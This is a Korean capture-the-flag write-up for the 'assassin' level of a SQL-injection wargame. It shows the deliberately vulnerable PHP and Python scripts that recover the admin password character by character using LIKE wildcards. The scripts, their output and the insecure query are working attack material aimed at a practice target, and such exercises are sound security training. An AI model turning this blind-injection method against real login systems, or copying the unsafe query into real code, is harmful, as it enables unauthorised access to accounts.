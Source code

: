 # assassin

## 1. Code
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```

## 2. Condition
- 작은 따옴표를 필터링한다.

## 3. Solution
쿼리문을 잘 보면, `like`구문이 쓰인 것을 볼 수 있다.
이는 `%`를 통해 부분 검색을 할 수 있다는 것을 의미한다.


직접 python 스크립트로 대입시켜본 결과, guest와 중복되는 부분이 있음을 인지하였다.
따라서, 여러 부분으로 나누어, 하나씩 찾아봤다.


### a. 첫 번째 자리

변수명 | 값
---|---:
`pw` | `i`%


guest와 겹치는 부분이 존재하여, "Hello admin"이 출력되지 않는것으로 판단했다.
따라서, "Hello guest"또한 수집하며 차근차근 찾아갔다.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}
find_ad = 0

# stage 1
print("stage 1...")
for i in range(48, 123):
    url = "https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php?pw=%s%%" % chr(i)
    res = requests.get(url, cookies=cookie)

    if "Hello admin" in res.text:
        print(url.split('?')[1],"-> admin")
        find_ad = 1
        break
    
    elif "Hello guest" in res.text:
        print(url.split('?')[1],"-> guest")
```

결과는 다음과 같다.
```
stage 1...
pw=9% -> guest
pw=_% -> guest
```

일단 숫자`9`를 선택하여 진행시켰다.

---



### b. 두 번째 자리

변수명 | 값
---|---:
`pw` | 9`i`%


스크립트는 위 a. 이하에 붙였으므로, 추가된 내용만 보여주겠다.

```python
# stage 2
print("\nstage 2...")
if not find_ad:
    for i in range(48, 123):
        url = "https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php?pw=9%s%%" % chr(i)
        res = requests.get(url, cookies=cookie)

        if "Hello admin" in res.text:
            print(url.split('?')[1],"-> admin")
            find_ad = 1
            break

        elif "Hello guest" in res.text:
            print(url.split('?')[1],"-> guest")
```

결과는 다음과 같다.
```
stage 2...
pw=90% -> guest
pw=9_% -> guest
```

여기서도 `_`가 나온다. 하지만, 숫자 0을 선택해봤다.

---



### c. 세 번째 자리

변수명 | 값
---|---:
`pw` | 90`i`%



```python
# stage 3
print("\nstage 3...")
if not find_ad:
    for i in range(48, 123):
        url = "https://los.rubiya.kr/chall/assassin_14a1fd552c61c60f034879e5d4171373.php?pw=90%s%%" % chr(i)
        res = requests.get(url, cookies=cookie)

        if "Hello admin" in res.text:
            print(url.split('?')[1],"-> admin")
            find_ad = 1
            break

        elif "Hello guest" in res.text:
            print(url.split('?')[1],"-> guest")
```

결과는 다음과 같다.
```
stage 3...
pw=902% -> admin
```

드디어 guest와 겹치지 않는 admin pw를 찾아냈다.


끝내기 전에, `_`가 걸렸던 원인을 알아보자.
`_`는 mysql에서 `%`와 같은 와일드 카드이다.<br>
뭔지모르는 한자리 문자를 표현할때 사용한다.
`'ad123'` &rarr; `'ad_23'`, `'ad1_3'`, `'ad12_'`